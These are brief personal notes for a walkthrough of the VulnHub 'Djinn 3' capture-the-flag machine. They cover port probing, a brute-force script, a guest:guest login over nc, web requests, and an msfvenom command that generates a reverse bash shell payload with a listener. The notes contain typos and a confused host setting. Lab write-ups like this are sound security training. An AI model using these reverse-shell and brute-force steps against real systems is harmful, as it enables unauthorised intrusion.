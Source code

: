 ```yaml
---
{"tags":["walkthrought","vulnhub"],"dg-publish":true,"permalink":"/ctf/vulnhub/djinn-3-walkthrough/","dgPassFrontmatter":true,"noteIcon":""}
---
```



	#apt install html2text
	#apt install pwn
	host id 192.168.0.105
	port 80 
	5000 python web server
	31337
	git clone  djinn3 walkthrought address
	
	nano brute forcing.py
	change host name to 192.168.0.105
	python3 Brute\ forcing.py
	
	#brute forcing open guest : guest
	nc 192.168.0.105 31337
	help
	open
	y3kh
	y3khexit
	curl -s http://192.168.0.105:5000/ | html2text
	curl -s http://192.168.0.105:5000/?id-3606
	sudo msfvenom -p cmd/unix/reverse_bash lhost=192.168.0.105 lport=4444 -f raw -o revshell.sh
	
	lv -lvnp 4444